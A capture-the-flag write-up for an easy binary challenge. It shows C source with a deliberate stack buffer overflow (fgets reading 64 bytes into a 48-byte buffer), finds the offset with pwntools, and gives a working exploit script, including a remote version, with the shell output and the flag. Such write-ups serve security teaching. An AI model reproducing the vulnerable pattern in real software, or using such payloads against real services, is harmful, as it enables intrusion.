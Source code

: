 # POUNE

## Description
Solves: 57  Easy

Hello kind sir! 
Can you read flag.txt?

nc challs.ctf.cafe 7777

Author : Zerotistic

## Files
1. Chall.c - The code of the challenge
2. Chall - The compiled binary running on the machine

## Analysis
The source code is providen, so let's take a look:
```c
#include <stdio.h>
#include <stdlib.h>

void main()
{
    int var;
    long int check = 0x04030201;
    char buf[0x30];

    puts("Hello kind sir!");
    printf("My variable \"check\" value is %p.\nCould you change it to 0xc0febabe?\n", check);
    printf("This is the current buffer: %s\n", buf);
    fgets(buf, 0x40, stdin);

    if (check == 0x04030201)
    {
        puts("Mmmh not quite...\n");
    }
    if (check != 0x04030201 && check != 0xc0febabe)
    {
        puts("Mmmh getting closer!...");
        printf("This is the new value of \"check\": %p\n", check);
    }
    if (check == 0xc0febabe)
    {
        puts("Thanks man, you're a life saver!\nHere is your reward, a shell! ");
        system("/bin/sh");
        puts("Bye bye!\n");
    }
}
```

As we can see, this looks just like an easy Buffer OverFlow.

If we do a "$ file ./chall" we can see is a 64b ELF

## Exploit
Vulnerability: It uses the fgets() function, but it takes 0x40 (64) bytes instead of the 0x30 (48) that the buffer can support.

Objetive: We must overwrite the long int check variable to change the value from 0x04030201 to 0xc0febabe.

To obtain when we overwrite the buffer we'll use pwntools
First we generate a large line:
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```
And then put it as entry on running the program:
Hello kind sir!
My variable "check" value is 0x4030201.
Could you change it to 0xc0febabe?
This is the current buffer: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Mmmh getting closer!...
This is the new value of "check": 0x6161706161616f
[Inferior 1 (process 16988) exited with code 0276]

This is little endian, so the new value is 0x6f616161706161 -> oaaapaa, now we just have to change the "oaaapaa" for the new value of the check

The final local exploit should look like this:
```python
from pwn import *

elf = ELF("./chall")
p = elf.process()

payload = b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaa' # offset
payload += p64(0xc0febabe) # new "check" value converted to 64b

p.sendline(payload)
p.interactive()
```

It works :)
To make it remote we just have to change lines 3 and 4 to this:
```python
p=remote("challs.ctf.cafe", 7777)
```

And if we run it...
```bash
$ python3 exploit.py 
[+] Opening connection to challs.ctf.cafe on port 7777: Done
[*] Switching to interactive mode
$ cat flag.txt
RUSH{TH1S_WAS_AN_3Z_CH4LLENG3_RIGHT}
$  
```

